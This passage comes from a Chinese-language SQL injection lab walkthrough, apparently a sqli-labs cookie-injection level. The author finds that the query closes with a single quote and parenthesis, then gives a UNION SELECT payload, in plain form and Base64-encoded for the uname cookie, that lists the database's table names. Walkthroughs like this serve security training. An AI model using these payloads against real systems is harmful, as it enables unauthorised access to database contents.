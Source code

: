 解码结果为：admin，果然，猜测正确，那么我们把上一关的payload Base64加密一下试试：

![img](assets/1666773399884-4672002f-1412-470c-ade2-d61201db9f1f.png)

未成功输出，应该是闭合方式不对，进行尝试：

![img](assets/1666774125992-66005da9-34cf-48dc-844c-64c230a1c4c6.png)

单引号闭合开始报错，从回显发现闭合方式为：**单引号括号')    并且未做waf处理，各种注入都可以**

**由此直接利用上一关payload：**

**Cookie: uname=**-admin') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#

**Cookie:uname=**LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpIw==

得到数据：

![img](assets/1666774386670-eae75a0b-a946-4702-83fe-df3ba303ea73.png)

